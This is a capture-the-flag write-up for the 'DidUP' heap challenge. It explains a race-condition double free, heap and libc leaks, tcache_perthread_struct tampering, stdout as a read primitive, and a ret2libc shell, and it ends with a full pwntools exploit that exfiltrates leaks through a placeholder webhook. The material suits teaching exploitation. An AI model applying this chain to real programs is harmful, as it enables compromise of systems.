



<a href="didup.zip" class="custom-button">Download Challenge ↓</a>

## Overview

>[DidUP?](https://www.portaleargo.it) Sounds more like DiDUP to me.
>
>**DISCLAIMER**: for evil professors only!
>
>`nc localhost 1337`
>
>**P.S**: The [real DidUP](https://www.portaleargo.it) is out of scope, if you manage to pwn that please pay my school fees :)

The challenge file is a single C binary compiled with all protections.



Reversing the binary we can identify 4 main functionalities:

- `add_mark`: allows the user to allocate a chunk (adding it to a list) and write a mark (int) and a description (string) into it
- `remove_mark`: frees the chunk containing the mark and removes it from the list
- `change_mark`: change the data inside a previosly allocated chunk
- `save_mark`: spawns a thread and makes a post request to an arbitrary endpoint, sending the mark as payload. It also removes the chunk.

## Solution

### Race condition
The function `save_mark` seems suspicious because the call to free is made before the post request, but the pointer is removed from the list after it. This can trigger a race condition that can lead to a double free!\
As we can choose the url for the request, the race condition can have an arbitrary window, we just need to setup an endpoint with a sleep.

```php
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $body = file_get_contents('php://input');
    $logFile = 'bodies.txt';
    file_put_contents($logFile, $body . PHP_EOL, FILE_APPEND); // stores the body of the request
    sleep(3); // just wait (arb window)
} else {
    echo "Make a POST request";
}
?>
```
*this is the simple endpoint I made. Please webbers, have mercy*

### Leak heap
Saving a file two times in a row allows us to leak the heap.\
This can be done because, after the first free, the saved mark becomes the "safe-linked" `chunk->fd` and if the chunk is the last in the linked list then `chunk->fd = heap>>12`.
We just need to guess the upper nibble of the heap, which is usually 0x5 or 0x6.

In short:
1. add chunk
2. save chunk (start race)
3. change chunk tcache-key
4. sleep for 1 sec (ensure requests arrive in the right order)
5. save chunk again (leak heap)
6. sleep for 2 sec (end race)

>Note that we need to change the tcache-key (second qword of the chunk) before saving the chunk a second time, otherwise we get a SIGABRT.


And now let's have some fun with feng shui!

### Partial libc leak
With some allocations we can get a chunk into unsortedbins and leak the lower 4 bytes of libc using `save_mark`.



### Playing with tcache_perthread_struct
At this point the easiest way of arbitrary writing is to tamper with the `tcache_perthread_struct`, as we avoid messing with safe linking, but as we don't have a full libc leak we need to do some magic.

The idea is to free a chunk into unsortedbins so as to have a pointer to `main_arena` as the first entry in the 0x40 tcache linked list.\
To achieve this we need to move to smallbins the unsortedbin that we used to partial-leak libc, otherwise freeing another big chunk won't give us a pointer to libc. To do this we need to allocate a bunch of chunks.



### Libc-leak method 1: stdout as read primitive
Once we have our pointer to `main_arena` as the first entry in 0x40 tcache we can partial override and make it an `_IO_2_1_stdout_`'s pointer.
Now we can allocate a chunk over stdout and partial override `_IO_write_base` to dump some bytes and fully leak libc (note that buffering is disabled for sdtout, so the buffer pointers in the file struct point inside the struct itself).\
>This tecnique is well explained by `nobodyisnobody` on [his github](https://github.com/nobodyisnobody/docs/tree/main/using.stdout.as.a.read.primitive).

### Libc-leak method 2: abuse safe-linking
Another way of leaking libc consists in partial overriding the `main_arena`'s pointer to make it point to a writable NULL region of libc.\
Allocating that chunk would trigger safe-linking (if the number of chunks in the 0x40 tcache is greater than 0).\
We are now in the same situation as when we leaked the heap: we can use the `save_mark` functionality to leak `libc>>12` and guess the upper nibble (0x7).

### Spawning a shell
Once we have leaked libc there are different paths one can take:

1. leak `environ` overriding `_IO_2_1_stdout_` a second time and then build a ROP chain on the stack of the `add_mark` function

2. Angry-FSROP on stdout

3. libc GOT override using a onegadget (not tested)

4. libc GOT override to stack pivot and ROP (basically [this tecnique](https://github.com/n132/Libc-GOT-Hijacking))

## Exploit
```python
#!/usr/bin/env python3
from pwn import *
import time
import requests

exe = ELF("./build/didup_patched") # patched
libc = ELF("./libs/libc.so.6")

context.binary = exe
WEBHOOK = "http://your.webhook".encode()

gdbscript = \
"""
set follow-fork-mode parent
set resolve-heap-via-heuristic force
"""

def conn():
    if args.GDB:
        r = gdb.debug([exe.path], gdbscript=gdbscript)
    elif args.REMOTE:
        r = remote("localhost", 1337)
    else:
        r = process([exe.path])
    return r

r = conn()

def add(idx, mark, desc):
    r.sendlineafter(b">", b"1")
    r.sendlineafter(b">", str(idx).encode())
    if type(mark) == bytes:
        r.sendlineafter(b":", mark)
    else:
        r.sendlineafter(b":", str(mark).encode())
    if desc != b"":
        r.sendafter(b":", desc)

def remove(idx):
    r.sendlineafter(b">", b"2")
    r.sendlineafter(b">", str(idx).encode())

def save(idx, url):
    r.sendlineafter(b">", b"4")
    r.sendlineafter(b">", str(idx).encode())
    r.sendlineafter(b":", url)

def change(idx, mark, desc):
    r.sendlineafter(b">", b"3")
    r.sendlineafter(b">", str(idx).encode())
    if type(mark) == bytes:
        r.sendlineafter(b":", mark)
    else:
        r.sendlineafter(b":", str(mark).encode())
    if desc != b"":
        r.sendafter(b":", desc)

# given a pointer generate mark and description 
def gen_mark_desc(ptr):
    mark = ptr & 0xffffffff
    desc = p32((ptr & (0xffff<<32)) >> 32)
    return mark, desc

# calculate safe-linked pointer
def calculate_P1(P, L):
    L12 = L >> 12
    P = P.to_bytes(8, "big")
    L12 = L12.to_bytes(8, "big")
    return int(bytes([p^l12 for p,l12 in zip(P,L12)]).hex(), 16)

def main():
    if args.REMOTE:
        print(r.recvuntil(b"Result"))
        r.sendlineafter(b":", input("Result: ").encode())

    # race condition to tcache-dup & leak heap
    add(0, 1, b"")
    # -- start race --
    save(0, WEBHOOK)

    # change tcache-key (use "-" to keep chunk->fd untouched)
    change(0, b"-", b"asdasdasdasdasd")
    time.sleep(1) # ensure requests arrive in the right order
    save(0, WEBHOOK) # leak heap
    time.sleep(2)
    # -- end race -- 

    # -- guess upper 4 bits of heap --
    leak = int(requests.get(WEBHOOK.decode()+"bodies.txt").text.split("\n")[-2].split("mark=")[1])
    heap = 0
    if leak < 0:
        heap = (0x100000000 + leak)
    else:
        heap = leak
    heap = heap << 12
    # log.info(f"partial heap: {hex(heap)}")
    # h_nibble = int(input("Guess the upper nibble: 0x").rjust(2, "0"), 16)

    # usually 0x55 <= (heap>>40) <= 0x65
    if (heap>>40) > 5:
        h_nibble = 5
    else:
        h_nibble = 6
    heap = (h_nibble<<44) + heap
    log.warning(f"heap: {hex(heap)}")
    # -------------------------------

    # undo tcache dup
    add(0, 1, b"")
    add(0, 1, b"")

    # ======================================================

    # create a big chunk and put it in unsortedbins
    # allocate from it a chunk 
    # doing so we can partially leak libc without corrupting unsortedbins

    # then we need to consume the unsortedbin
    # in this way the thread can't allocate from it (avoid heap mess and crash)

    # increase tcache count
    for i in range(2, 10):
        add(i, 1, b"")
    for i in range(6, 10):
        remove(i)

    # race to tcache-dup
    add(4, 1, b"")
    save(4, WEBHOOK)
    change(4, 6, b"asdasdasd")
    remove(4)
    time.sleep(4)

    # allocate a chunk above tcache_perthread_struct
    # this will be used to enlarge the chunk under it
    add(4, 1, b"")
    tcache_metadata = calculate_P1(heap+0x80, heap+0x6c0)
    mark, desc = gen_mark_desc(tcache_metadata)
    change(4, mark, desc)
    add(4, 1, b"")

    # allocate a chunk and one above it to change its size
    payload = p32(0) + p64(0)*3 + p64(heap+0x430) 
    add(4, 6, payload) # chunk above tcache_perthread_struct
    add(8, 1, b"")
    # small chunk to overlap and enlarge the one under it
    payload = p32(0) + p64(0)*3 + p64(heap+0x410) 
    change(4, 6, payload)
    # enlarge
    payload = p32(0) + p64(0)*2 + p64(0x441) 
    add(9, 6, payload)
    
    # put big chunk in unsortedbins
    remove(8)
    
    # add chunk from the one in unsortedbins (now we have 2 chunks pointing to libc)
    add(0, 1, b"")

    # we can save (free) one of them to leak 4 bytes of libc
    save(0, WEBHOOK)
    time.sleep(4)
    leak = int(requests.get(WEBHOOK.decode()+"bodies.txt").text.split("\n")[-2].split("mark=")[1])
    partial_libc = 0
    if leak < 0:
        partial_libc = (0x100000000 + leak)
    else:
        partial_libc = leak
    log.warning(f"partial libc: {hex(partial_libc)}")

    # -- consume unsortedbin --
    for _ in range(10):
        add(0, 1, b"")
    for i in range(3):
        add(i, 1, b"")
    # add entries to 0x40 tcache
    for i in range(3):
        remove(i)
    # -------------------------
    
    # ======================================================

    # create a big chunk over tcache_perthread_struct 
    # and put it in unsorted bin
    # now we have a libc pointer as first entry in 0x40 tcache
    # then partial override that ptr to make it point to stdout


    # allocate a chunk precisely over 0x40 tcache entry in tcache_perthread_struct
    # it's size will be changed by the chunk above
    payload = p32(0) + p64(0)*3 + p64(heap+0xa0) 
    change(4, 6, payload)
    add(2, 1, b"")
    # enlarge
    change(4, 6, p32(0)+flat(0,0,0x4f1))

    # free it (to unsortedbins) 
    # to have a libc ptr as first entry on 0x40 tcache
    remove(2)

    # calulate partial stdout from leaked libc bytes
    partial_stdout = (partial_libc & 0xfffff000) + 0x780

    # partial override libc address to allocate over stdout
    payload = p32(0)+flat(0,0,0x4b1)+p32(partial_stdout)
    change(4, 6, payload)

    # ======================================================
    
    add(5, 1, b"") # chunk over stdout
    # partial override _IO_write_base to leak libc
    mark = 0xfbad1887
    desc = p32(0) + p64(0)*3 + p32(partial_stdout-0x100)
    change(5, mark, desc)

    r.recv()
    libc.address = u64(r.recv(8)) - 0x21a6a0
    log.warning(f"libc: {hex(libc.address)}")
    
    # ======================================================

    # leak environ abusing stdout as read primitive

    mark = 0xfbad1887
    # _IO_write_base = _IO_read_end = environ
    # _IO_write_ptr = environ+0x100
    desc = p32(0) + p64(0) + p64(libc.sym.environ) + p64(0) + p64(libc.sym.environ) + p64(libc.sym.environ+0x100)
    change(5, mark, desc)

    r.recv()
    stack = u64(r.recv(8)) - 0x148
    log.warning(f"stack: {hex(stack)}") 

    # ======================================================
    # change tcache metadata to allocate over retaddr of add_mark function
    # then write a ret2libc on the stack

    # change tcache_perthread_struct using previously allocated chunk
    payload = p32(0)+flat(0,0,0x511)+p64(stack)
    change(4, 6, payload)

    # ret2libc on the stack
    POP_RDI_RET = libc.address + 0x2a3e5
    RET = libc.address + 0xf41c9
    BINSH = libc.address + 0x1d8698
    ret2libc = p32(0) + flat(POP_RDI_RET, BINSH, RET, libc.sym.system)
    add(0, 6, ret2libc)

    # ======================================================

    log.success(f"pwned :)")

    r.sendline(b"cat flag")
    r.recv()
    flag = r.recvline().decode().rstrip("\n")
    print(flag)

    # r.interactive()

if __name__ == "__main__":
    main()
```


